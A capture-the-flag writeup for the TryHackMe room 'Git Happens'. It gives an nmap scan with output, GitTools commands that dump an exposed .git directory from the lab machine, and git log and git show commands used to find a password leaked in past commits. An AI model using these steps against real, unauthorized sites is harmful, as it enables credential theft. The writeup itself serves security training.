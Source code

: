 ```yaml
---
layout: post
title: Git Happens Writeup
subtitle: Can you find the password to the application?
thumbnail-img: https://assets.tryhackme.com/img/banners/default_tryhackme.png
# cover-img: 
# gh-badge: [star, fork, follow]
tags: [ctf,tryhackme, writeup, git]
# comments: true
---
```


Boss wanted me to create a prototype, so here it is! We even used something called ***version control*** that made deploying this really easy!


## Here is a machine information

| Title | Git Happens | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 80 |
| Maker | Hydragyrum |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## NMAP
We have an IP as usual, and we can start with the basic nmap scan

```bash
nmap -sC -sV -A machine-ip 
```
<em>

-A : Os detection, version detection, traceroute

-sS : TCP syn scan ( for faster scan, needs root privilege )

-o : For storing output in file
</em>

After finishing scan with nmap, we got the result as tcp (80) is open and more interesting directory was found is *.git*

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 02:35 EDT
Nmap scan report for 10.10.242.228
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.242.228:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## What can we do with .git  directory?

i tryed to access the .git directory via *http://machine-ip/.git*

![.git directory](/assets/img/.git.png)

In order to get the contents of the directory, I used this.
My favorite search engine is [GitTool](https://github.com/internetwache/GitTools)
After clone this tool. 

firstly, we need to dump all the file by cmd 

```bash
./gitdumper.sh http://machine-ip/.git/ gitdump
```
Then  extract it.
```bash
./extractor.sh /gitdump /extractor
```
After finish all the dump and extract. i got this.

![extractor](/assets/img/extract.png)

In order to get all the files in the previous commits, we run this command

```bash
git checkout .
```
we got all files: 

![extractor](/assets/img/extractall.png)

## Getting the password 

Nomally, when we have the git file. we should run cmd 

```bash
git log
```
![gitlog](/assets/img/gitlog.png)

We can go through all the modification file by run:

```bash
git show bc8054d9d95854d278359a432b6d97c27e24061d
```
We can see all the file change in this commit.
We go through all commit with this command. 
in the ***e56eaa8e29b589976f33d76bc58a0c4dfb9315b1*** object. 
 
![result](/assets/img/result.png)

Yeah, we got the password now !!!!

Another way, it will not waste your time to  much by run:

 ```bash
 git log | grep commit | cut -d " " -f2 | xargs git show 
```

This will real all the changed files.
